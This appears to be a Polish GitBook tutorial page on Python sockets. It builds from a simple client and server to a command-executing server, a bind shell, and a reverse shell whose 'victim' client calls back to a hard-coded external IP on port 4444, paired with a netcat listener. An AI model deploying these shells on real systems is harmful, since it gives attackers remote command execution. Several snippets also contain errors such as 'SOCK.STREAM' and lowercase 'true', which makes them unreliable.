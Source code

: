 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# sockets

**CLIENT SIDE**MY SIĘ ŁĄCZYMY Z SERWEREM

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (12).jpg" alt=""><figcaption></figcaption></figure>

</div>

```python
import socket

ip="127.0.0.1"
port = 1337

sock=socket.socket(socket.AF_INET, socket.SOCK.STREAM)
result=sock.connect_ex(ip,port)
print(result)
sock.close()

--------------------------console output
0
```

<figure><img src=".gitbook/assets/1 (13).jpg" alt=""><figcaption></figcaption></figure>

```python
#musi być b czyli wersja bajtowa bo inaczej protokół nie zrozumie
sock.send(b"Hello")
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (14).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/2 (8).jpg" alt=""><figcaption></figcaption></figure>

</div>

**SERVER SIDE**JESTEŚMY SERWEREM

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (15).jpg" alt=""><figcaption></figcaption></figure>

</div>

**tworzymy listenera**taki pythonowy netcat nc -nlvp 1337

```python
import socket

sock=socket.socket()
sock.bind(("0.0.0.0",1337))
sock.listen(1)
conn,addr=sock.accept()
info=conn.recv(1024).decode()
print(info)
sock.close()
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (16).jpg" alt=""><figcaption></figcaption></figure>

</div>

**Create basic connectivitv between the client and server sockets**

_CLIENT_

```python
import socket

ip="127.0.0.1"
port = 1337

sock=socket.socket()
result=sock.connect_ex((ip,port))
while true:
  sock.send(input(">>>").encode())
  print(f"{port} : {result}")
sock.close()
```

_SERVER_

```python
import socket

sock=socket.socket()
sock.bind(("0.0.0.0",1337))
sock.listen(1)
conn,addr=sock.accept()
parsed=""

while true:
  info=conn.recv(8)
  parsed+=info.decode()
  print(parsed)
  if len(info)<8:
    print(parsed)
  if info=="exit":
    break
sock.close()
```

**SERVER - CLIENT**

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (17).jpg" alt=""><figcaption></figcaption></figure>

</div>

**CLIENT**

```python
import socket

ip="127.0.0.1"
port = 1337

sock=socket.socket()
result=sock.connect_ex((ip,port))
while true:
  sock.send(input(">>>").encode())
  print(f"{port} : {result}")
sock.close()
```

**SERVER**BĘDZIE ODCZYTYWAŁ TO CO WPISZE KLIENT JAKO KOMENDĘ W CMD np dir, ls, nmap

```python
import socket
import os

sock=socket.socket()
sock.bind(("0.0.0.0",1337))
sock.listen(1)
conn,addr=sock.accept()
parsed=""

while true:
  info=conn.recv(8)
  parsed+=info.decode()
  print(parsed)
  if len(info)<8:
    print(os.system(parsed))
  if info=="exit":
    break
sock.close()
```

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (18).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/2 (9).jpg" alt=""><figcaption></figcaption></figure>

</div>

_BIND-SHELL_

**CLIENT**

```python
import socket

ip="127.0.0.1"
port = 1337

sock=socket.socket()
result=sock.connect_ex((ip,port))
while true:
  sock.send(input(">>>").encode())
  print(sock.recv(2048).decode())
  print(sock.recv(2048).decode())
sock.close()
```

**SERVER**

```python
import socket
import os
import subprocess

sock=socket.socket()
sock.bind(("0.0.0.0",1337))
sock.listen(1)
conn,addr=sock.accept()
parsed=""

while true:
  info=conn.recv(2048).decode()
  conn.send(info.encode())
  var=str(os.system(info)).encode()
  proc=os.popen(info).read()
  print(proc)
  conn.send(proc.encode())
  if info=="exit":
    break
sock.close()
```

_REVERSE SHELL_

<div data-full-width="true">

<figure><img src=".gitbook/assets/1 (19).jpg" alt=""><figcaption></figcaption></figure>

</div>

<div data-full-width="true">

<figure><img src=".gitbook/assets/2 (10).jpg" alt=""><figcaption></figcaption></figure>

</div>

**CLIENT** OFIARA

```python
import socket
import os

sock=socket.socket()
res=sock.connect(("146.59.35.163",4444))

while true:
  info=sock.recv(2048).decode()
  var=os.popen(info).read()
  sock.send(var.encode())
sock.close()
```

**SERVER** ATAKUJĄCY

```python
#w terminalu wpisujemy
nc -nlvp 4444
```
